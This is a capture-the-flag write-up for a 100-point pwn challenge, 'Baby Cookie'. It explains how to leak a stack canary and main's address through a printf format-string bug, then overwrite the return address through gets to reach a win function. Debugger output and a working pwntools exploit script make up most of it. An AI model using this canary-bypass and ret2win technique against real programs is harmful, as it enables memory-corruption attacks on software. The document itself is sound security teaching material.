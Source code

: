 # Baby Cookie
![](https://img.shields.io/badge/category-pwn-blue)
![](https://img.shields.io/badge/points-100-orange)

## Description
```
placeholder - problem hidden
```

## Solution
The `gets` function has a buffer overflow that we can abuse to overwrite the return pointer. But, now there is a stack canary that will terminate the program if we try and do a stack overflow.
```
gdb-peda$ checksec
CANARY    : ENABLED
FORTIFY   : disabled
NX        : ENABLED
PIE       : ENABLED
RELRO     : FULL
```

Luckily for us, we also have a printf format string vulnerability that can be used to read the cookie. The stack canary is on the stack, and contains a `00` in its hex representation, making it easy to spot.

We can set a breakpoint right before the printf, run the program until it pauses, and examine the stack.
```
gdb-peda$ stack 50
0000| 0x7ffe6e73cf70 --> 0x562025b91040 --> 0x400000006 
0008| 0x7ffe6e73cf78 --> 0xf0b5ff 
0016| 0x7ffe6e73cf80 --> 0xc2 
0024| 0x7ffe6e73cf88 --> 0x7ffe6e73cfb7 --> 0x562025b9214000 
0032| 0x7ffe6e73cf90 --> 0x7ffe6e73cfb6 --> 0x562025b921400000 
0040| 0x7ffe6e73cf98 --> 0x562025b9244d (<__libc_csu_init+77>:  add    rbx,0x1)
0048| 0x7ffe6e73cfa0 --> 0x7fcc07000a64 
0056| 0x7ffe6e73cfa8 --> 0x562025b92400 (<__libc_csu_init>:     endbr64)
0064| 0x7ffe6e73cfb0 --> 0x0 
0072| 0x7ffe6e73cfb8 --> 0x562025b92140 (<_start>:      endbr64)
0080| 0x7ffe6e73cfc0 --> 0x7ffe6e73d0c0 --> 0x1 
0088| 0x7ffe6e73cfc8 --> 0x38acfc2c2306b300 
```

It's at position 12, which means the actual offset we must pass to printf should be around 12+4=16. This is because offsets 1-4 of printf will actually read from registers instead of the stack. With some trial and error, we can determine that we should leak number 17.

```
What is your name?
%17$p
Hi 0xf4f6f02aa154000
```

Next, we also have to leak the address of the win function, since the program is now positionally independent. Luckily, a few lines down the stack, we have this, at position 23 (find using trial and error):
```
0136| 0x7ffe6e73cff8 --> 0x562025b922a2 (<main>:        endbr64)
```
This points to the start of main, and the distance between the functions is always the same.

```
gdb-peda$ p main - print_flag
$3 = 0x79
```

Now we have everything we need. First, we leak the canary and main address, and then when we perform our buffer overflow, we overwrite the canary and then the return address. 

Now, we need to figure out how to structure our overflow to contain the cookie. If we advance the program instruction-by-instruction until the `gets` line, we can examine where on the stack it reads onto, and also how far it is until we need to overwrite.
```
=> 0x563a79b953d6 <main+308>:   call   0x563a79b95100 <gets@plt>
   0x563a79b953db <main+313>:   mov    eax,0x0
   0x563a79b953e0 <main+318>:   mov    rcx,QWORD PTR [rbp-0x8]
   0x563a79b953e4 <main+322>:   xor    rcx,QWORD PTR fs:0x28
   0x563a79b953ed <main+331>:   je     0x563a79b953f4 <main+338>
Guessed arguments:
arg[0]: 0x7ffc606759e0 --> 0xc2 
```
This shows us that `gets` will start reading to this stack address. We can then count how far down the cookie and return address is, staring from this address.

```
gdb-peda$ stack 25
0000| 0x7ffc606759d0 --> 0x563a79b94040 --> 0x400000006 
0008| 0x7ffc606759d8 --> 0xf0b5ff 
1   | 0x7ffc606759e0 --> 0xc2 
2   | 0x7ffc606759e8 --> 0x7ffc60675a17 --> 0x563a79b9514000 
3   | 0x7ffc606759f0 --> 0x7ffc60675a16 --> 0x563a79b951400000 
4   | 0x7ffc606759f8 --> 0x563a79b9544d (<__libc_csu_init+77>:  add    rbx,0x1)
5   | 0x7ffc60675a00 ("%17$p %23$p\n")
6   | 0x7ffc60675a08 --> 0x56000a702433 ('3$p\n')
7   | 0x7ffc60675a10 --> 0x0 
8   | 0x7ffc60675a18 --> 0x563a79b95140 (<_start>:      endbr64)
9   | 0x7ffc60675a20 --> 0x7ffc60675b20 --> 0x1 
CAN | 0x7ffc60675a28 --> 0x5ef5e94018a11000 
11  | 0x7ffc60675a30 --> 0x0 
RET | 0x7ffc60675a38 --> 0x7f42abc480b3 (<__libc_start_main+243>:       mov    edi,eax)
```

This tells us that we need to write 9\*8 bytes of garbage, followed by the stack canary, followed by 8 more garbage bytes, and then the return address.

```py
from pwn import *

#p = process("./babycookie")
p = remote("d35bbf2.0x16.ink", 30275)

pay = b'\n'*4 + b'%17$p %23$p'

p.sendline(pay)
p.recvuntil(b"Hi ")
addrs = p.recvuntil(b"\n")[:-1].split(b" ")     # 0xcanary 0xmain_addr\n
canary = int(addrs[0], 16)
main = int(addrs[1], 16)
win = main - 0x79
log.info("Canary: " + hex(canary))
log.info("Main: " + hex(main))
log.info("Win: " + hex(win))
p.recvuntil(b"?\n")

p.send(b'A'*9*8 + p64(canary) + p64(0) + p64(win) + b'\n')   # 9 stack entries + canary + garbage + win
p.interactive()
```


Flag: `placeholder - problem hidden`

